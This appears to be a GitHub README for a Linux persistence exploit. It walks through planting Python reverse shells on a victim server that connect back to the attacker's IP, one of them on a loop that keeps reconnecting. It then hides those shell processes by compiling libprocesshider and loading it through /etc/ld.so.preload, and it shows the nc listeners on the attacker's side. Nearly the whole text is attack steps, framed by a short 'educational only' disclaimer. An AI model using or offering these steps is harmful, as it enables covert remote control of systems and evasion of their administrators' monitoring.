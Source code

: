 <h1 style="font-size:10vw" align="left">Linux Persistence Access </h1>
*For educational and authorized security research purposes only*



## Original Exploit Authors
[@gianlucaborello](https://github.com/gianlucaborello), [@therealdreg](https://github.com/therealdreg)

## Exploit Description
This script is python based and is used to create a reverse shell of the victim machine. There are two scripts, the first one is used for a one-time reverse shell and the other for an infinite reverse shell with a loop mechanism every 2 seconds. And to improve defense evasion, we'll hide processes on Linux using the ld preloader.

## Step Guides
1. Establish a connection to victim's machine using SSH
```
┌──(kali㉿kali)-[~]
└─$ ssh administrator@www.servint.org
```
2. Change **s.connect(("172.16.10.7",2220))** in the shell.py file with the perpetrator's address for one-time reverse shell
3. Change **sdregs.connect(("172.16.10.7",9999))** in the loop-shell.py with the perpetrator's address for infinite reverse shell
4. Make shell.py and loop-shell.py executable:
```
administrator@Server-01:/tmp/libprocesshider$ chmod +x shell.py
administrator@Server-01:/tmp/libprocesshider$ chmod +x loop-shell.py
```
5. Change static const char* process_to_filter = "shell.py"; in the processhider.c with the script you want to use
6. Then, compile the library:
```
administrator@Server-01:/tmp/libprocesshider$ make
gcc -Wall -fPIC -shared -o libprocesshider.so processhider.c -ldl
administrator@Server-01:/tmp/libprocesshider$ sudo mv libprocesshider.so /usr/local/lib/
```
6. Then, Load it with the global dynamic linker
```
root@Server-01:~# echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```
7. Create new terminal on perpetrator's machine and run this command for connect with one-time reverse shell and this command for infinite reverse shell::
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 2220
```
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 9999
```
8. Run shell.py or loop-shell.py:
```
administrator@Server-01:/tmp/libprocesshider$ ./shell.py
administrator@Server-01:/tmp/libprocesshider$ ./loop-shell.py
```
9. And your process will be off the radar 
```
administrator@Server-01:/tmp/libprocesshider$ sudo ps aux
USER PID %CPU %MEM VSZ RSS TTY STAT START TIME COMMAND
```
```
administrator@Server-01:/tmp/libprocesshider$ sudo lsof -ni
COMMAND PID USER FD TYPE DEVICE SIZE/OFF NODE NAME
```

## Exploit Requirements
- python3
- gcc

## Demo
![Animation](https://github.com/asepsaepdin/libprocesshider/assets/122620685/5fde2a4d-355d-46cc-b211-08e9a352b83d)


## Warning
⚠️ Becareful when running this exploit on your system

## Credits
- https://sysdigcloud.com/hiding-linux-processes-for-fun-and-profit/
- https://github.com/gianlucaborello/libprocesshider
- https://github.com/therealdreg/python_reverse_shell_detached_background/blob/main/README.md
